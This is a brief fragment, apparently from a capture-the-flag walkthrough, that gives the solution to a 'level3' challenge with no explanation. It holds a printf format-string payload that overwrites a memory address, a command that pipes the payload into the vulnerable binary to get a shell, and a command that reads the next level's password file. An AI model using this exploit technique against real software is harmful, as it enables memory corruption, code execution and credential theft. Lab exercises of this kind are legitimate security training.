 `python -c 'print "\x8c\x98\x04\x08%060x%4$n"' > /tmp/level3`
`cat /tmp/level3 - | ./level3`
`cat /home/user/level4/.pass`
